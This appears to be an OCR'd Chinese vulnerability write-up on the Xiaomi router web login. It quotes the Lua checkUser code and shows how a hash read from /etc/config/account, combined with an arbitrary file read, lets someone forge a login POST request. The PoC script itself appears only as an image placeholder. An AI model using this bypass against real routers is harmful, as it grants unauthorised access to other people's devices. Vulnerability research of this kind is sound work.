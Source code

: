 *   验证用户登陆的后端过程

    调用`XQSecureUtil.checkUser`函数

    ```
    function checkUser(user, nonce, encStr)

    – 从xiaoqiang 配置文件中读取信息

    local password = XQPreference.get(user, nil, “account”)

    if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then

    if XQCryptoUtil.sha1(nonce…password) == encStr then

    return true

    end

    end

    XQLog.log(4, (luci.http.getenv(“REMOTE_ADDR”) or “”)…" Authentication failed", nonce, password, encStr)

    return false

    end 
    ```

    跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

    `checkUser`函数判断等式为(encStr为参数oldPwd)

    ```
    sha1(nonce + sha1(密码 + ‘a2ffa5c9be07488bbb04a3a47d3c5f6a’))
    ```

`sha1(nonce + accountStr)` 

则

```
accountStr == sha1(密码 + ‘a2ffa5c9be07488bbb04a3a47d3c5f6a’) 
```

故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1

Host: 192.168.31.1 `username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248` 
```

### poc

> arbitrary_file_read_vulnerability.py

![image](img/f471043a317320194c221f10381044da.png)
